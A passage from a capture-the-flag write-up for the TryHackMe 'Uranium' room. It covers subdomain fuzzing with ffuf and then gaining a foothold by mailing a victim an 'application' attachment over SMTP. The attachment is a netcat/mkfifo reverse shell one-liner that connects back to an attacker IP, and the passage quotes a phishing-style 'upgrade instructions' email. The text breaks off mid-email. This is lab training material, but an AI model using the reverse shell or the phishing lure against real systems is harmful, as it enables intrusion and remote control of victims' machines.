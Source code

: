 ```shell
```

Nothing stands out.

**Then fuzz subdomains via `ffuf`:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|09:47:57(HKT)]
└> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://uranium.thm/ -H "Host: FUZZ.uranium.thm" -fw 428 -t 100 
[...]
```

Again, nothing...

## Initial Foothold

Hmm... Let's go back to SMTP.

In SMTP, we can send a mail.

**Let's try to send an application mail with a Bash reverse shell!**

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#sending-an-email-from-linux-console), we can send via `sendEmail` Linux command:**
```shell
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

Sincerely,
```

**Armed with above information, let's first create an "application" file, which is a Netcat reverse shell:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:13:17(HKT)]
└> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.70.81 443 >/tmp/f' > application
```

**Next, setup a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:22:00(HKT)]
└> sudo nc -lnvp 443
listening on [any] 443 ...
```

**Then, send the mail:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:30:44(HKT)]
└> sendEmail -t hakanbey@uranium.thm -f siunam@gmail.com -s uranium.thm -u "Application Request" -a application -o tls=no
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

Dear Uranium Coin,

```